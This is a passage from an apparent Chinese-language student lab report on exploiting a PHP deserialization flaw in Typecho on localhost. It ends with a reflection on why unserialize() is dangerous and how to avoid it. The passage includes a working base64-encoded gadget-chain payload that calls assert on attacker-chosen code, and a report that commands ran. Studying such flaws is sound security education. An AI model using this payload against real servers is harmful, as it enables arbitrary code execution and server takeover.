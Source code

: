 #### ![image-20250606205948986](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606205948986.png)

#### 3.进入网址127.0.0.1/exe.php

![image-20250606210020458](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606210020458.png)

#### 4.得到新的payload

```
YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=
```

#### 5.修改typecho.php,得到正确的toString

![image-20250606210343489](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606210343489.png)

#### 6.再次进入网址127.0.0.1/typecho.php

![image-20250606210320154](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606210320154.png)

#### 7.观察到成功创建新文件，成功执行其他的系统命令

![image-20250606210142776](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606210142776.png)

## 心得体会：

通过本次实验，我深刻理解了PHP反序列化漏洞的原理和危害。反序列化漏洞是由于对用户输入缺乏严格验证而导致的，攻击者可以利用该漏洞执行任意代码，从而完全控制服务器。在实际开发中，应避免对用户可控的输入使用  unserialize()  ，改用更安全的序列化格式（如JSON）。同时，对所有用户输入进行严格验证和过滤，确保输入符合预期格式，是防止此类漏洞的关键。